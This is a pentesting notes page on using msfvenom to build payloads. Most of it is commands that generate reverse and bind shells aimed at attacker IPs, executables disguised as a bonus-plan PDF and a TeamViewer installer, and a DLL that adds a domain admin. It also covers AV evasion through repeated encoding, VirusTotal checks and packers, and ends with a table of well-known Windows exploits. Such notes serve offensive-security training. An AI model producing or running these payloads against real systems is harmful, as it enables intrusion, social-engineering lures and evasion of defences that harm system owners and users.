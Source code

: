 ```yaml
---
title: msfvenom
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - terminal
  - shells
---
```

# msfvenom

MSFVenom is the successor of MSFPayload and MSFEncode, two stand-alone scripts that used to work in conjunction with msfconsole to provide users with highly customizable and hard-to-detect payloads for their exploits.

You can generate a webshell by using  msfvenom

```bash
# List payloads
msfvenom --list payloads | grep x64 | grep linux | grep reverse  

# list all the available payloads
msfvenom -l payloads  
```

Also msfvenom can use metasploit payloads under “cmd/unix”  to generate one-liner bind or reverse shells. List options with:

```bash
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```


## Some flags

```bash
# -b, or --bad-chars: The list of characters to avoid example: '0'

```

## Single  payload
`Singles` are self-contained payloads. Some exploits will not support the resulting size of these payloads as they can get quite large.

## Staged payload

```bash
# Example of a linux staged payload
msfvenom -p linux/x64/shell/reverse_tcp lhost=192.66.166.2 lport=443 -f elf -o newfile

# Example of a windows staged payload
msfvenom -p windows/x64/meterpreter/bind_tcp lhost=10.10.14.72 lport=1234 -f aspx -o lala
```


After that

```bash
chmod +x newfile 
```

When creating a staged payload, you will need to use a metasploit handler (exploit/multi/handler) in order to receive the shell connection as only metasploit contains proper logic that will send the rest of the payload to the connector . In that case, the metasploit payload has to be the same one as the MSFVenom one.

## Stagedless payload

A stage less payload is a standalone program that does not need anything adittional (no metasploit connection), just the netcat listener on the computer.

```bash
# Example of a windows stageless payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

If the AV was disabled all the user would need to do is double click on the file to execute and we would have a shell session.


## crafting a DLL file with a webshell

The `Meterpreter` payload is a specific type of multi-faceted payload that uses `DLL injection` to ensure the connection to the victim host is stable, hard to detect by simple checks, and persistent across reboots or system changes.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IPAttacker> LPORT=<4444> -a x86 -f dll > SECUR32.dll
# -p: for the chosen payload
# -a: architecture in the victim machine/application
# -f: format for the output file

```
[More about DLL highjacking in thick client applications](thick-applications/tca-attacking-thick-clients-applications.md#how-is-dll-hijacking-perform).


### crafting a .exe file with Shikata Ga Nai encoder

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
# -e: chosen encoder 


```

Shikata Ga Nai encoder will be most likely detected by AV and IDS/IPS. One better option would be to try running it through multiple iterations of the same Encoding scheme:

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

But, still, we could be getting detected.

## Crafting a dll that executes a command

We can generate a malicious DLL to add a user to the `domain admins` group using `msfvenom`.

```shell-session
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```


## Module msf-virustotal

 Alternatively, Metasploit offers a tool called msf-virustotal that we can use with an API key to analyze our payloads. However, this requires free registration on VirusTotal.
 
```bash
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```


## Packers

The term `Packer` refers to the result of an `executable compression` process where the payload is packed together with an executable program and with the decompression code in one single file. When run, the decompression code returns the backdoored executable to its original state, allowing for yet another layer of protection against file scanning mechanisms on target hosts. This process takes place transparently for the compressed executable to be run the same way as the original executable while retaining all of the original functionality. In addition, msfvenom provides the ability to compress and change the file structure of a backdoored executable and encrypt the underlying process structure.

A list of popular packer software:

| | | |
|---|---|---|
|[UPX packer](https://upx.github.io)|[The Enigma Protector](https://enigmaprotector.com)|[MPRESS](https://www.matcode.com/mpress.htm)|
|Alternate EXE Packer|ExeStealth|Morphine|
|MEW|Themida||

If we want to learn more about packers, please check out the [PolyPack project](https://jon.oberheide.org/files/woot09-polypack.pdf).


## Mitical attacks

|**Vulnerability**|**Description**|
|---|---|
|`MS08-067`|MS08-067 was a critical patch pushed out to many different Windows revisions due to an SMB flaw. This flaw made it extremely easy to infiltrate a Windows host. It was so efficient that the Conficker worm was using it to infect every vulnerable host it came across. Even Stuxnet took advantage of this vulnerability.|
|`Eternal Blue`|MS17-010 is an exploit leaked in the Shadow Brokers dump from the NSA. This exploit was most notably used in the WannaCry ransomware and NotPetya cyber attacks. This attack took advantage of a flaw in the SMB v1 protocol allowing for code execution. EternalBlue is believed to have infected upwards of 200,000 hosts just in 2017 and is still a common way to find access into a vulnerable Windows host.|
|`PrintNightmare`|A remote code execution vulnerability in the Windows Print Spooler. With valid credentials for that host or a low privilege shell, you can install a printer, add a driver that runs for you, and grants you system-level access to the host. This vulnerability has been ravaging companies through 2021. 0xdf wrote an awesome post on it [here](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html).|
|`BlueKeep`|CVE 2019-0708 is a vulnerability in Microsoft's RDP protocol that allows for Remote Code Execution. This vulnerability took advantage of a miss-called channel to gain code execution, affecting every Windows revision from Windows 2000 to Server 2008 R2.|
|`Sigred`|CVE 2020-1350 utilized a flaw in how DNS reads SIG resource records. It is a bit more complicated than the other exploits on this list, but if done correctly, it will give the attacker Domain Admin privileges since it will affect the domain's DNS server which is commonly the primary Domain Controller.|
|`SeriousSam`|CVE 2021-36924 exploits an issue with the way Windows handles permission on the `C:\Windows\system32\config` folder. Before fixing the issue, non-elevated users have access to the SAM database, among other files. This is not a huge issue since the files can't be accessed while in use by the pc, but this gets dangerous when looking at volume shadow copy backups. These same privilege mistakes exist on the backup files as well, allowing an attacker to read the SAM database, dumping credentials.|
|`Zerologon`|CVE 2020-1472 is a critical vulnerability that exploits a cryptographic flaw in Microsoft’s Active Directory Netlogon Remote Protocol (MS-NRPC). It allows users to log on to servers using NT LAN Manager (NTLM) and even send account changes via the protocol. The attack can be a bit complex, but it is trivial to execute since an attacker would have to make around 256 guesses at a computer account password before finding what they need. This can happen in a matter of a few seconds.|

